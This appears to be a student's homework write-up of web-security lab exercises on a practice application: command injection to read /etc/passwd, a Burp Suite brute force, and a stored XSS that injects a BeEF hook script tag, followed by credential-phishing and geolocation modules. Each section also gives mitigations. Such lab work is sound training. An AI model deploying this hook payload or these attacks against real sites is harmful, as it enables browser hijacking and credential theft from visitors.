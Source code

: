 # Unit 15 Homework - Web-Vulnerabilities and Hardening

## Web Apllication #1
### Command Injection
#### Exploit
Using the dwva, use command injection to view the passwd and hosts file in /etc

![etc/passwd](Images/etc-passwd.PNG)
![etc/hosts](Images/etc-hosts.PNG)

#### Mitigation
The best way to avoid this vulnerability is to not allow the execution of OS commands. However, when this is not possible, properly configured server side input validation will deny access to this vulnerability.

## Web Apllication #2
### Brute Force

#### Investigation
Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

![brute-force](Images/Brute-force.PNG)

`user: tonystark`
`Password: "I am Iron Man"`

#### Mitigation
There are a number of mitigation methods to prevent brute force attacks, depending on what type of asset you are trying to defend. Two common and very effective methods are multi-factor authentication, and to lock the account after x number of failed attempts. Another possible method to prevent a brute force attack without locking the account to it's rightful owner is to prevent further attempts based on an IP address after x failed attempts, however this could easily be bypassed if the attacker is using a botnet with many ip addresses for it's bots.

## Web Application #3
### Where's the BeEF?

#### Exploit
 You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      ![xss-post](Images/xss-post-script.PNG)
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
   ![Petty theft](Images/xxs-facebook.PNG)
   ![BeEF facebook credentials](Images/xxs-BeEF-facebook.PNG)
     
     - Social Engineering >> Fake Notification Bar
     ![xss fake notification bar](Images/xxs-popup.PNG)
     ![BeEF confirmation of fake notification bar](Images/xxs-BeEF-popup.PNG)
     
     - Host >> Get Geolocation (Third Party)
     ![BeEF GeoLocation](Images/xxs-BeEF-GeoLocation.PNG)
     
#### Mitigation
To mitigate against xss attacks, all user input should be cleansed through the use of escaping, filtering and validation. This can be done on the client side, and **should always** be done on the server side as client side strategies won't be effective against the use of a terminal window to access your website using commands such as cURL.